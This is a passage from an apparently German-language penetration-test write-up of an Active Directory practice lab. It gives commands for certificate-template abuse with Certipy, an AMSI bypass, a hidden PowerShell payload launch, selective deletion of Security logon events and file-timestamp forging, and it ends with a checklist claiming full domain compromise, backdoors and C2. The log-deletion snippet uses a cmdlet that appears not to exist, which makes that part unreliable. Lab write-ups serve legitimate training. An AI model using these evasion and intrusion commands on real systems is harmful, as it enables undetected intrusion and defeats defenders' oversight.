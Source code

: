 #### Certificate Services Exploitation
```bash
# Falls ADCS in der Umgebung vorhanden
# CertEnroll Share wurde gefunden auf BRAAVOS
smbclient //192.168.20.23/CertEnroll -U administrator

# Certipy für ADCS-Angriffe
certipy find -dc-ip 192.168.20.12 -u administrator -p password

# ESC1-8 Vulnerability Tests
certipy req -ca 'essos-MEEREEN-CA' -template 'VulnerableTemplate' -u administrator -p password
```

### 12.2 Evasion & Stealth Techniques

#### Anti-Detection Measures
```powershell
# AMSI Bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# PowerShell Execution Policy Bypass
powershell.exe -ep bypass -nop -w hidden -c "IEX (gc payload.ps1 -raw)"

# Process Injection für Stealth
# Reflective DLL Injection techniques
```

#### Log Evasion
```powershell
# Selective Event Log Deletion
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624} | Where-Object {$_.Message -like "*jon.snow*"} | ForEach-Object {Remove-WinEvent -EventId $_.RecordId}

# Timestamp Manipulation
$file = "C:\Windows\Temp\payload.exe"
$referenceFile = "C:\Windows\System32\kernel32.dll"
(Get-Item $file).CreationTime = (Get-Item $referenceFile).CreationTime
(Get-Item $file).LastWriteTime = (Get-Item $referenceFile).LastWriteTime
```

---

## Conclusion: Complete Lab Domination Achieved

### Final Status Assessment

**✅ COMPLETE COMPROMISE ACHIEVED**

**Domain Compromise Status:**
- ✅ sevenkingdoms.local - Full Domain Admin
- ✅ north.sevenkingdoms.local - Full Domain Admin  
- ✅ essos.local - Full Domain Admin
- ✅ SQL Servers - SA Administrative Access
- ✅ All User Accounts - Password Database Extracted
- ✅ Persistence - Multiple Backdoors Established
- ✅ C2 Infrastructure - Operational Command & Control
